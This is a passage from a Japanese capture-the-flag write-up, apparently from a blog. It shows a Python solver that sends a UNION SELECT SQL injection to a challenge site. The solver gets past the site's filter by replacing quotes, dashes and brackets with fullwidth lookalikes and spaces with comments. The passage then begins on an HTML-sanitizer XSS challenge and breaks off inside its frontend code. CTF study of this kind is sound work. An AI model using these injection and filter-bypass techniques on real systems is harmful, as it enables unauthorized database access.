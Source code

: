 実際は以下のようなツールを作成し、効率よく問い合わせを行った

```python:solver.py
import requests

URL = "https://emailsearch.wwctf.com/"

s = requests.session()

email = "' UNION SELECT flag FROM flagz--@wwctf.com"

email = email.replace("'", "’")
email = email.replace("-", "ー")
email = email.replace("=", "＝")
email = email.replace(" ", "/**/")
email = email.replace("(", "（")
email = email.replace(")", "）")
email = email.replace(",", "，")
email = email.replace(":", "：")
data = {
    "email": email
}
r = s.get(URL, params=data)
print(r.text)
print(r.url)
```


## ✅ SAAS (497pts 2 solves)

9割9分bawolffさんが解きました。すげー！

### 問題概要

HTMLを送信すると、サニタイズして表示するサイト。

![](/assets/blog/wwctf/2.png)

フロントエンドのコードは次の通り。クエリパラメータからHTMLを読み取り、それが**75文字以下**ならば、`/api/sanitize`でサニタイズした後`#sanitized-output`の`innerHTML`に代入する。

```javascript:index.js
async function sanitizeHTML() {
    const inputHTML = document.getElementById('html-input').value;
    if (inputHTML.length <= 75) {
        try {
            const response = await fetch('/api/sanitize', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ html: inputHTML })
            });

            const data = await response.json();

            if (data.html) {
                document.getElementById('sanitized-output').innerHTML = data.html;
            } else {
                document.getElementById('sanitized-output').textContent = `Error: ${data.error}`;
            }
        } catch (err) {
            document.getElementById('sanitized-output').textContent = `Failed to sanitize HTML: ${err.message}`;
        }
    } else {
```